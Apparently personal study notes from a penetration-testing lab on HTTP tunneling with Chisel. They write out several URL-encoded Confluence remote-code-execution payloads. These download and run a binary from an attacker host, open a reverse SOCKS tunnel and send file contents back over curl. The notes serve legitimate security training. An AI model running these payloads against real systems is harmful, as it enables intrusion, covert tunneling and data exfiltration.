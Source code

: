 # HTTP Tunneling Theory and Practice

### HTTP Tunneling with Chisel

*Chisel*
- HTTP tunneling tool that encapsulates our data stream within HTTP
	- Also uses the SSH protocol within the tunnel so our data will be encrypted
		- (i.e HTTP Tunnel + SSH-encrypted)
- *reverse port forwarding* -> similar to SSH remote port forwarding
- ![[Pasted image 20240124204519.png]]

- Server & Client use same binary -> different startup arg (server/cleint)
	- [If our target host is running a different operating system or architecture, we have to download and use the compiled binary for that specific operating system and architecture from the Chisel Github releases page]

- Example:
	- [TO SOLVE THIS EXAMPLE]
		- [I had to uninstall chisel --> install the 32 bit Linux version of chisel ---> upload 32 bit version to the tgt machine ---> then it worked]
	- Leverage the injection to download it from our Kali machine over HTTP
		- Serve the **chisel** binary using Apache2
			- ```sudo cp $(which chisel) /var/www/html/```
			- ```sudo systemctl start apache2```
	- Command to download the **chisel** binary to **/tmp/chisel** and make it executable
		- ```wget 192.168.45.186/chisel -O /tmp/chisel && chmod +x /tmp/chisel```
	- Format **wget** command to work with our **curl** Confluence injection payload to.
			- you can modify the specific parts of the URL-encoded RCE payload that you need to, rather than trying to build a new payload from scratch
		- ```curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.118.4/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/```
	- View **/var/log/apache2/access.log** to confirm
		- ```tail -f /var/log/apache2/access.log```
	- Start chisel server
		- ```chisel server --port 8080 --reverse```
			- --port = bind port /
			- --reverse = reverse port forwarding
	- Run **tcpdump** on our Kali machine to log incoming traffic
		- ```sudo tcpdump -nvvvXi tun0 tcp port 8080```
	- Command to start the Chisel client
		- ```/tmp/chisel client 192.168.45.182:8080 R:socks > /dev/null 2>&1 &```
			- R = reverse tunnel
			- socks = proxy type
			- socks proxy bound to port **1080** by default
	- Convert into Confluence injection payload and execute
		- ```curl http://192.168.195.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.45.186:8080%20R:socks%27%29.start%28%29%22%29%7D/```
	- Doesnt Work --> Try to read command output on tgt machine --> redirect stdout and stderr to a file, and send file over HTTP back to our Kali
		- Command:
			- ```/tmp/chisel client 192.168.118.4:8080 R:socks &> /tmp/output; curl --data @/tmp/output http://192.168.118.4:8080/```
				- **&>** = redirects all streams to stdout & writes it to **/tmp/output**
				- **--data @/tmp/output** = include data in output file
	- Convert again into injection payload in curl command
		- ```curl http://192.168.238.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.45.178:8080%20R:socks%20%26%3E%20/tmp/output%20%3B%20curl%20--data%20@/tmp/output%20http://192.168.45.178:8080/%27%29.start%28%29%22%29%7D/```
	- Check tcpdump output to confirm